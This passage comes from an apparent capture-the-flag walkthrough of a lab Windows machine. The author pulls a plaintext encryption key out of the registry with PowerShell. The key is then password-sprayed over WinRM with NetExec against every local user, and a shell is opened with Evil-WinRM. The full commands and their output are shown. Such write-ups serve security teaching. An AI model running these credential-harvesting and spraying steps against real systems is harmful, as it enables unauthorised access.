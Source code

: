 ### WinRM

#### Recover Key

In PowerShell, I can enter registry hives like drives with directories:



    PS C:\inetpub> cd hklm:\Software\MedDigi
    PS HKLM:\Software\MedDigi>



`Get-ItemProperty` will show the values of this key:



    PS HKLM:\Software\MedDigi> Get-ItemProperty .

    EncKey       : 1g0tTh3R3m3dy!!
    PSPath       : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\MedDigi
    PSParentPath : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software
    PSChildName  : MedDigi
    PSDrive      : HKLM
    PSProvider   : Microsoft.PowerShell.Core\Registry



The `EncKey` is "1g0tTh3R3m3dy!!".

#### Shell

To check if any known user on this box uses this key, I'll save all the
users from `net user` in a file on my host and spray with
[NetExec](https://www.netexec.wiki/). SMB isn't accessible, but I can
try WinRM:



    oxdf@hacky$ netexec winrm meddigi.htb -u users -p '1g0tTh3R3m3dy!!' --continue-on-success
    WINRM       10.10.11.238    5985   APPSANITY        [*] Windows 10 / Server 2019 Build 19041 (name:APPSANITY) (domain:Appsanity)
    WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\Administrator:1g0tTh3R3m3dy!!
    WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\DefaultAccount:1g0tTh3R3m3dy!!
    WINRM       10.10.11.238    5985   APPSANITY        [+] Appsanity\devdoc:1g0tTh3R3m3dy!! (Pwn3d!)
    WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\Guest:1g0tTh3R3m3dy!!
    WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\svc_exampanel:1g0tTh3R3m3dy!!
    WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\svc_meddigi:1g0tTh3R3m3dy!!
    WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\svc_meddigiportal:1g0tTh3R3m3dy!!
    WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\WDAGUtilityAccount:1g0tTh3R3m3dy!!



I like `--continue-on-success` to see if multiple users share the
password. It works for devdoc, and gets a shell with Evil-WinRM:



    oxdf@hacky$ evil-winrm -i meddigi.htb -u devdoc -p '1g0tTh3R3m3dy!!'

    Evil-WinRM shell v3.4
